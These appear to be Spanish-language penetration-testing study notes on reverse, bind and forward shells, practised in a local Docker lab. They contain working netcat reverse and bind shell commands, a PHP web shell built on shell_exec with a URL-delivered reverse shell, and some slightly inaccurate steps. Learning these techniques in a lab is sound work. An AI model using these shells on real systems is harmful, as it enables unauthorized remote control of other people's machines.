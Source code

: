 
---------
- Tags: #ReverseShells #BindShells #ForwardShells
---------------
> **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- Creamos un archivo
```bin/bash
nvim dockerfile
```
- Desplegamos la maquina
```bin/bash
docker build -t webserver .
```
- En segundo plano con una consola virtual y de manera interactiva
```bin/bash
docker run -dit -p 80:80 --name myContainer my_image
```
- Conseguir una consola interactiva e instalamos ncat
```bin/bash
docker exec -it myContainer bash
apt install ncat
```
- Con la herramienta netcat ponernos en escucha
```bin/bash
nc -nlvp 443
```
- Desde la maquina interactiva en bash ponemos para recibir conexión
```bin/bash
ncat -e /bin/bash 172.17.0.1 443
```
- Para ver mejor el diseño en pantalla
```bin/bash
script /dev/null -c bash
```

![[Ejemplo de Reverse Shells.png]]


>**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- Con ncat iniciado la maquina interactica con:
```bin/bash
docker exec -it myContainer bash
apt install ncat
```
- Escuchar por el puerto 443 ofreciendo una bash
```bin/bash
ncat -nlvp 443 -e /bin/bash
```


![[Ejemplo de BindShells.png]]

>**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

- Escuchar por el puerto 443 ofreciendo una bash
```bin/bash
ncat -nlvp 443 -e /bin/bash
```
- En otra terminal ingresamos el comando
```bin/bash
nc 172.17.0.2 443
```
- También podemos realizar los siguientes pasos 
```bin/bash
docker rm $(docker ps -a -q) --force
```
- Este comando nos permite instalar iptables en la consola interactiva
```bin/bash
docker run -dit -p 80:80 --cap-add=NET_ADMIN --name myContainer webserver
```
- Corremos el contenedor
```
docker exec -it myContainer bash
```
- En el bash instalamos iptables
```
install iptables
iptables --flush
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 0:65535 -m conntrack --ctstate NEW -j DROP
```
- Nos dirigimos al archivo 
```
/var/www/html/
```
- Instalamos nano
```bin/bash
apt install nano
```
- Creamos un archivo en la interfaz dinamica
```
nano cmd.php
```
```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Abrimos este archivo para reparar el problema php en la pagina
```
nano /etc/php/8.1/apache2/php.ini
```
-----

(Ctrl+w) = nos permite filtrar la linea `short_open_tag`
Cambiar el Off por el On
Cerramos y actualizamos la pagina web localhosts
Y listo tenemos ejecución por consola a través de `localhost/cmd.php?cmd=whoami` a través de la URL

-------
- Instalamos ncat
```
apt install ncat
```
- Nos ponemos en escucha en el puerto 443
```
nc -nlvp 443
```
- Nos conectamos desde la **URL**
```
localhost/cmd.php?cmd=ncat -e /bin/bash 172.17.0.1 443
```
- Si no funciona podemos intentar trabajar con la libreria `ttyoverhttp.py` copiando el raw 
```
wget https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py
```
Modificamos todos los index.php a cmd.php
- Actualizamos el archivo cmd.php 
```php
<?php
	echo shell_exec($_GET['cmd']);
?>
```
- Nos conectamos a la escucha de nuevo por 
```
nc -nlvp 443
```
- O tambien nos podemos conectar por 
```python
python tty_over_http.py
```
- Para conseguir una consola interactiva
```
script /dev/null -c bash
```

![[Ejemplo de ForwardShells.png]]